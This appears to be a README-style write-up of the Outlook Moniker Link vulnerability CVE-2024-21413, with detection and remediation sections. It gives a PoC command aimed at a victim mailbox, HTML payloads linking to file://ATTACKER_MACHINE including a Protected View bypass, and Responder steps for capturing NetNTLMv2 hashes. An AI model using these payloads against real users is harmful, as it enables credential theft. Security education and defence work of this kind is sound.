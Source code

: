 ## Moniker Link CVE-2024-21413

### Tool: Responder, SMTP client

### PoC: https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

#### PoC usage:

    python3 CVE-2024-21413.py --server MAIL_SERVER --port PORT --username USER@DOMAIN.LOCAL --password PASSWORD --sender USER@DOMAIN.LOCAL --recipient VICTIM@DOMAIN.LOCAL --url "\\IP/something" --subject XD

### Severity: Critical

### Scoring: 9.8

### MS Article: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

### Affected MS Office releases:

#### 1) Microsoft Office LTSC 2021	(Version: from 19.0.0)

#### 2) Microsoft 365 Apps for Enterprise (Version: from 16.0.1)

#### 3) Microsoft Office 2019 (Version: from 16.0.1)

#### 4) Microsoft Office 2016 (Version: from 16.0.0 before 16.0.5435.1001)

### Example payload: (Moniker Link type: file://)

#### 1) 

    <p><a href="file://ATTACKER_MACHINE/test"<Click me</a></p>

### Outlook's Protected view bypass: (Special character: !)

#### 1) 

    <p><a href="file://ATTACKER_MACHINE/test!exploit"<Click me</a></p>

### POC: https://github.com/CMNatic/CVE-2024-21413

### Steps:

#### 1) 

    sudo responder -I INTERFACE

#### 2) Modify the exploit PoC according to use case

#### 3) Run the exploit

#### 4) User clicks the hyperlink and his NetNTLMv2 hash is been captured by our responder server.

## DETECTION

### 1) YARA rule written by Florian Roth: https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar

### 2) Wireshark: The SMB request from the victim to the client can be seen in a packet capture with a truncated NetNTLMv2 hash

## REMEDIATION

#### 1) Patch to the latest version if possible: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413 or https://www.catalog.update.microsoft.com/Home.aspx

#### 2)  Remind users to:

##### Do not click random links 

##### Preview links before clicking them

##### Forward suspicious emails to the respective department responsible for cybersecurity
